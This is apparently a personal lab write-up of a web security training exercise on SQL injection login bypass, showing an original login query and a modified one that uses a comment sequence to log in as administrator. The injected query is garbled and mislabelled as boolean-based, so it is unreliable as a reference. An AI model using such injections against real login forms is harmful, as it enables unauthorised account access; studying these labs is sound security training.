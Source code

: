 ```yaml
---
Title: SQL injection vulnerability allowing login bypass
tags:
  - Labs
  - SQLi
---
```

# SQL injection vulnerability allowing login bypass
1. Intercept login request
![[{55E86194-E8C4-427E-BD36-CBCA16D169E5}.png]]

The request looks like this:
`SELECT * FROM users WHERE username = 'wiener' AND password = 'peter' `

To bypass this and login as administrator, we will use a boolean based sqli
`SELECT * FROM users WHERE username = 'administrator' '--' AND password = 'admin'

2. Final payload
![[{52209A9C-8652-4D14-8888-A83CAE0E7970}.png]]



